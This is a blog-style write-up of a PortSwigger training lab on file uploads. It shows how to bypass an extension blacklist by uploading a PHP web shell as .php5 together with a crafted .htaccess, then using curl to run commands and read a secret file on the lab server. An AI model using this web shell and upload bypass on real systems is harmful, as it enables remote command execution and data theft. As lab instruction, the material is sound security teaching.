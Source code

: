 # Web shell upload via extension blacklist bypass | Dec 16, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass), you'll learn: Web shell upload via extension blacklist bypass! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216011314.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216011331.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216011338.png)

In the previous labs, we found the image upload function is vulnerable.

**Let's try to upload a PHP web shell, and intercept the request via Burp Suite:**
```php
<?php system($_GET['cmd']); ?>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216011833.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216011853.png)

When we clicked the `Upload` button, it'll send a POST request to `/my-account/avatar`.

**Let's forward that request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216011950.png)

Hmm... `php files are not allowed`.

**To bypass this, we can rename the file extension to `.php5`. This extension tells the web server to use PHP version 5.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216012133.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216012148.png)

We've successfully uploaded the web shell!

**Can we execute any commands?**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2]
└─# curl https://0a7e00e604ca24d3c074863600320039.web-security-academy.net/files/avatars/webshell.php5 --get --data-urlencode "cmd=id"                     
<?php system($_GET['cmd']); ?>
```

Nope.

This might happen is because **servers typically won't execute files unless they have been configured to do so.**

**In FireFox extension `Wappalyzer`, it will tell us which web server is using:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216012534.png)

In this case, **the web server is using `Apache`.**

**In Apache server, before executing PHP files requested by a client, developers might have to add the following directives to their `/etc/apache2/apache2.conf` file:**
```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php
```

Many servers also allow developers to create special configuration files within individual directories in order to override or add to one or more of the global settings.

In Apache servers, it will load a directory-specific configuration from a file called `.htaccess` if one is present.

**Now, what if I upload a file called `.htaccess` to override the server configuration?**

**After poking around, I found this [Medium blog](https://asreshashank.medium.com/execute-php-scripts-into-html-file-by-modifying-htaccess-file-8517ed1e2066):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216013635.png)

**With that said, we can create our own `.htaccess` with the following configuration:**
```
AddType application/x-httpd-php .php5
```

**By doing that, we can execute any file that has `.php5` extension!**

**Let's do that!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4]
└─# echo "AddType application/x-httpd-php .php5" > .htaccess
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216013901.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216013921.png)

**Change the `Content-Type` to `text/plain`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216013954.png)

**Then forward the request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-4/images/Pasted%20image%2020221216014018.png)

**Now, we should able to execute our uploaded web shell!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2]
└─# curl https://0a7e00e604ca24d3c074863600320039.web-security-academy.net/files/avatars/webshell.php5 --get --data-urlencode "cmd=id"
uid=12002(carlos) gid=12002(carlos) groups=12002(carlos)
```

**Yes! Let's `cat` the `secret` file:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-2]
└─# curl https://0a7e00e604ca24d3c074863600320039.web-security-academy.net/files/avatars/webshell.php5 --get --data-urlencode "cmd=cat /home/carlos/secret"
msmjtxD8JyjrKVclp0tr4TlZDhWle315
```

# What we've learned:

1. Web shell upload via extension blacklist bypass